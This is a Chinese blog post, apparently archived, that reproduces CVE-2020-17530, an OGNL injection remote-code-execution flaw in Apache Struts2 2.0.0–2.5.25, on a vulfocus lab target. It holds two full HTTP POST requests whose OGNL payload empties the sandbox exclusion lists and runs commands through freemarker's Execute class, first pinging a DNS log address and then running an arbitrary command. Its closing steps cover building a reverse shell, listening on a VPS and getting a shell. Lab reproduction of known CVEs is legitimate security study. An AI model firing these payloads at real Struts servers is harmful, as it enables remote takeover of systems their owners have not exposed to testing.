








# Struts2-CVE-2020-17530 - Colin.B - 博客园

> 原文：[`www.cnblogs.com/colin-B/p/15797611.html`](https://www.cnblogs.com/colin-B/p/15797611.html)

背景：
由于 Struts2 是一个基于 MVC 设计模式的 Web 应用框架，它本质上相当于一个 servlet，在 MVC 设计模式中，Struts2 作为控制器(Controller)来建立模型与视图的数据交互。 在特定的环境下，远程攻击者通过构造 恶意的 OGNL 表达式 ,可造成 任意代码执行。

漏洞编号：
CVE-2020-17530

影响版本：
struts 2.0.0 - struts 2.5.25

复现步骤：
1，打开漏洞环境 vulfocus


2，对访问页面进行抓包


3，打开 Burp DNS Log 客户端


4，构造 POST 数据包

```
POST /index.action HTTP/1.1
Host: vulfocus.fofa.so:33233
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 888

------WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Disposition: form-data; name="id"

%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("ping    DNS Log 地址")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}
------WebKitFormBoundaryl7d1B1aGsV2wcZwF— 
```



5，发送数据包得到回显


6，继续构造 POST 数据包

```
POST /index.action HTTP/1.1
Host: vulfocus.fofa.so:33233
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 831

------WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Disposition: form-data; name="id"

%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("要执行的命令")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}
------WebKitFormBoundaryl7d1B1aGsV2wcZwF-- 
```



7，发送得到回显


8，制作反弹 shell
打开 https://www.jackson-t.ca/runtime-exec-payloads.html


9，将反弹 shell 编码填入数据包


10，VPS 开启监听


11，发送数据包得到 shell
